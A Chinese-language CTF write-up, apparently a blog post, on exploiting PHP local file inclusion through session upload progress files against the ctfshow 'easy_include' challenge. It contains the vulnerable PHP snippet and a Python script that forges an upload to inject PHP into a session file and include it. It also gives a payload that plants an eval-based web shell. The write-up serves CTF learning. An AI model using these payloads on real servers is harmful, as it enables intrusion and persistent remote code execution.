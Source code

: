 ![1](https://the0n3.top/medias/session-include/2.png)

关键点：

- session文件默认用户可以自定义
- 文件上传时默认生成session，记录详细信息和跟踪上传进度
- session.upload_progress.cleanup配置项默认打开，**伪造的文件上传后，会清空session**

## 测试

题目地址[ctfshow easy_include](https://ctf.show/challenges#easy_include-4260)

```php
<?php

function waf($path){
    $path = str_replace(".","",$path);
    return preg_match("/^[a-z]+/",$path);
}

if(waf($_POST[1])){
    include "file://".$_POST[1];
}
```

通过伪造”文件上传“创建session脚本

```python
import requests
# 如果题目链接是https，换成http
# url="https://642a817d-1d1a-4f22-aded-f796560bdd17.challenge.ctf.show/"
url="http://642a817d-1d1a-4f22-aded-f796560bdd17.challenge.ctf.show/"
sessionid = 'ctfshow'

data = {
    'PHP_SESSION_UPLOAD_PROGRESS': '<?php phpinfo();?>',
    '1': 'localhost/tmp/sess_'+sessionid,
    }
 
file = {
    'file': sessionid
}
cookies = {
    'PHPSESSID': sessionid
}

response = requests.post(url=url,data=data,files=file,cookies=cookies)
print(response.text)
```

可以把session内容换成以下内容，生成一个新的木马文件

```php
<?php
file_put_contents('1.php','<?php eval($_POST[1]);?>');
?>
```
